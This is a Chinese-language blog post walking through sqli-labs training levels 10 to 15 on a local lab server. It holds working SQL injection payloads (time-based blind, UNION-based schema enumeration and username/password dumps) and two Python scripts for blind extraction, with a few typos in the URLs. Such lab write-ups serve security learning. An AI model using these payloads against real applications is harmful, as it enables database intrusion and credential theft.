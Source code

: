```yaml
---
layout: post
title: "sqli-labs-第10关->第15关"
subtitle: "sqli-labs-第10关->第15关"
date: 2019-08-30
author: ppbibo
category: security
finished: true
---
```

[TOC]

PS：最近总是不知道学啥了所以复习下sql注入，总结下笔记。

接着上次的继续-[传送门]([https://6o9.im/security/2019/02/14/Sqli-labs-%E5%AD%A6%E4%B9%A0-%E9%95%BF%E6%9C%9F%E6%9B%B4%E6%96%B0.html](https://6o9.im/security/2019/02/14/Sqli-labs-学习-长期更新.html))



## sqli-labs 第10关

观察源代码发现闭合双引号即可-如下：

```mysql
http://192.168.1.101/sqli-labs/Less-10/?id=2" and sleep(5)%23
```

上面语句成功延时5秒判断存在时间盲注

```mysql
http://192.168.1.101/sqli-labs/Less-10/?id=2" and if(1=2,sleep(5),1)%23
```

上面利用if语句来判断条件表达式不成立，所以没有延时，确定存在基于时间的sql注入

```mysql
http://192.168.1.101/sqli-labs/Less-10/?id=2?id=2"  and If(ord(substr(database(),1,1))=115,sleep(5),1)%23
```

根据payload写出python脚本

思路：

数据库的长度一般不会超过20个字符所有利用range(21) 循环出 1-20 ，这里因为是靶机我们知道数据库全部为字母（ascii 码值 a-z:97-122）所以利用range(97,123 )循环出97-122 ，将他们进行循环遍历，这里用到 timeout(3) 来进行异常处理，最大处理时间为3秒。

判断条件成立就会延时5秒再回显结果，而接收请求最大秒数我们定义了3秒，所以会爆请求超时的异常。

```python

import requests

for j in range(21):

    for i in range(97,123):

        try:
            re = requests.request("get",url="http://192.168.1.101/sqli-labs/Less-10/?id=2?id=1%22%20and%20if(ord(substr(database(),{},1))={},sleep(5),1)%23".format(j,i),timeout=3)
            continue

        except:

            print(chr(i))

```

**RT：**

![sqli-labs-10](/static/img/sqli-labs-10.png)

成功输出当前数据库的名称。



## sqli-labs 第11关 

查看源代码**RT：**

![sqli-labs-11](/static/img/sqli-labs-11.png)

order by 判断字段 **RT:**

```mysql
POST:
username=a' order by 3#     
```

```mysql
POST:
username=a' union select 1,2#
```

![sqli-labs-11-1](/static/img/sqli-labs-11-1.png)



查看当前用户可操作的所有数据库 **RT：**

```mysql
POST:
username=a' union select 1,group_concat(schema_name) from information_schema.schemata#
```

![sqli-labs-11-2](/static/img/sqli-labs-11-2.png)

当前数据库为 security 所以查看下 security 数据库下面的表 **RT :**

```mysql
POST:
username=a' union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'security'#
```

![sqli-labs-11-3](/static/img/sqli-labs-11-3.png)

知道了表名接下来就是字段了 **RT：**

```mysql
POST:
username=a' union select 1,group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name = 'users'#
```

![sqli-labs-11-4](/static/img/sqli-labs-11-4.png)

字段直接查询即可,得到所有的用户名密码，如下：

```mysql
POST:
username=a' union select 1,group_concat(username,password) from users#
```



## sqli-labs 第12关 

观察源代码 **RT :**

![sqli-labs-12](/static/img/sqli-labs-12.png)



闭合前面的符号达到sql注入 **RT：**：

```mysql
POST:
username=1") order by 4#
```

![sqli-labs-12-1](/static/img/sqli-labs-12-1.png)



接下来和上一关是一样的，参考 sqli-labs 第11关。

```bash
1") union select 1,group_concat(schema_name) from information_schema.schemata#
```

```bash
1") union select 1,group_concat(table_name) from information_schema.tables where table_schema='security'#
```

```bash
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1") union select 1,group_concat(username,password) from users#
```



## sqli-labs 第13关  

还是看了下源代码 **RT：**

![sqli-labs-13](/static/img/sqli-labs-13.png)



闭合前面的语句执行我们想要的sql语句 **RT :**

![sqli-labs-13-1](/static/img/sqli-labs-13-1.png)

接下来还是那么的顺利，参考 sqli-labs 第12关

```bash
1') union select 1,group_concat(schema_name) from information_schema.schemata#
```

```bash
1') union select 1,group_concat(table_name) from information_schema.tables where table_schema='security'#
```

```bash
1') union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1') union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1') union select 1,group_concat(username,password) from users#
```



## sqli-labs 第14关 

查看源代码 **RT：**

![sqli-labs-14](/static/img/sqli-labs-14.png)



闭合执行sql语句（判断存在几个字段）

![sqli-labs-14-1](/static/img/sqli-labs-14-1.png)

接下来一切顺理成章

```bash
1" union select 1,group_concat(schema_name) from information_schema.schemata#
```

```bash
1" union select 1,group_concat(table_name) from information_schema.tables where table_schema='security'#
```

```bash
1" union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1" union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'#
```

```bash
1" union select 1,group_concat(username,password) from users#
```



## sqli-labs 第15关 

写完就回去了，还是看源代码 **RT:**

![sqli-labs-15](/static/img/sqli-labs-15.png)



![sqli-labs-15-1](/static/img/sqli-labs-15-1.png)

执行sql语句 **RT：**

```mysql
1' or 1=1#
```

![sqli-labs-15-2](/static/img/sqli-labs-15-2.png)

猜测数据库的长度为8位 **RT：**

```mysql
1' or (length(database()))=8#
```

调试中 **RT:**

![sqli-labs-15-debug](/static/img/sqli-labs-15-debug.png)

输出脚本 **RT**：

```python
import requests

sql_url = "http://192.168.1.101/sqli-labs/Less-15/"

for j in range(9): # 前面知道了数据库长度为8位

    for i in range(97, 123):  # ascii 码值 a-z : 97-122

        re = requests.request("POST",url=sql_url,data={"uname":"1' or ord(mid((select database()),{},1))={}#".format(j,i),"passwd":"1"})

        if "flag.jpg" in re.text:

            print(chr(i))
```

![sqli-labs-15-3](/static/img/sqli-labs-15-3.png)



## 总结

**持续更新先记下**

万变不离其宗只要有数据库发生互交的地方不管输入点在哪，只要没有进行绝对的交验就会发生SQL注入，手指以麻痹，回家吃手抓饼，告辞。